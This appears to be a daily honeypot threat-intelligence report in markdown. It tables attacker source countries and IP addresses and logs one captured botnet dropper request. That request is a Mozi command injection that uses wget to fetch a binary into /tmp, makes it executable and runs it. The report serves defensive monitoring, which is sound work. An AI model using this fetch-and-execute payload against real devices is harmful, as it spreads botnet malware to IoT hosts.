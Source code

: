 ```yaml
---
title: "Report: 2025-03-07 "
date: 2025-03-07
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-07
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| NG               | Israel             |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                               |
|:--------------|:----------------------------------------------------------------------------------------------------------------------|
| 122.97.136.24 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   148 | 194.120.230.215 |
|   1 |                    45 | 129.153.180.193 |
|   2 |                    45 | 176.109.103.64  |
|   3 |                    45 | 185.16.38.107   |
|   4 |                    39 | 178.211.139.120 |
|   5 |                    39 | 45.148.10.90    |
|   6 |                    38 | 195.178.110.163 |
|   7 |                    36 | 79.127.149.168  |
|   8 |                    36 | 185.91.127.81   |
|   9 |                    34 | 45.148.10.35    |
|  10 |                    30 | 5.143.245.194   |
|  11 |                    26 | 179.43.161.34   |
|  12 |                    24 | 192.241.173.154 |
|  13 |                    18 | 92.255.57.58    |